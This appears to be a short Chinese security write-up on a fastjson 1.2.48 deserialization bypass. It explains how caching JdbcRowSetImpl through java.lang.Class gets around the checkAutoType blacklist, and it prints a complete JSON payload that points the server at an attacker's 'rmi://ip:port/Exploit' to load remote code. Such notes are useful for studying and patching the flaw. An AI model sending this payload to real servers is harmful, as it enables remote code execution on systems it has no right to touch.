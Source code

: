 # 1.2.48反序列化

## 原理

在1.2.24之后在`ParserConfig.java`增加了`checkAutoType`函数来进行黑名单的过滤,对一些常见反序列化的类进行了过滤.而该版本的利用则是将`JdbcRowSetImpl`类加入到`mappings`的缓存，在`JdbcRowSetImpl`类进入黑名单过滤之前，`fastjson`会先看缓存里面有没有这个类，有的话，就直接返回了。也就是没有走进黑名单过滤，就结束了check.

**payload:**

```
{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://ip:port/Exploit","autoCommit":true}}";
```

